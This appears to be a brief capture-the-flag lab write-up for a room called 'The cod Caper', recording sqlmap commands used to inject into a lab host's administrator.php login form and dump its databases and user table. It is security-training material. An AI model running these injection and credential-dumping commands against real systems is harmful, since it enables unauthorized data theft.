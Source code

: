## The cod Caper

A guided room taking you through infiltrating and exploiting a Linux system.

### Host Enumeration 

10.10.7.32



### SQLMAP
```bash
sqlmap -u http://10.10.85.197/administrator.php --data 'username=&password='

sqlmap -u http://10.10.85.197/administrator.php --data 'username=&password=' -a #`-a` Grabs just about everything from the db

sqlmap -u http://10.10.85.197/administrator.php --data 'username=&password=' --dbs # grab databases

sqlmap -u http://10.10.85.197/administrator.php --data 'username=&password=' -D users --tables

#dump user tables

sqlmap -u http://10.10.85.197/administrator.php --data 'username=&password=' -D users -T user --dump

dump users tables

```
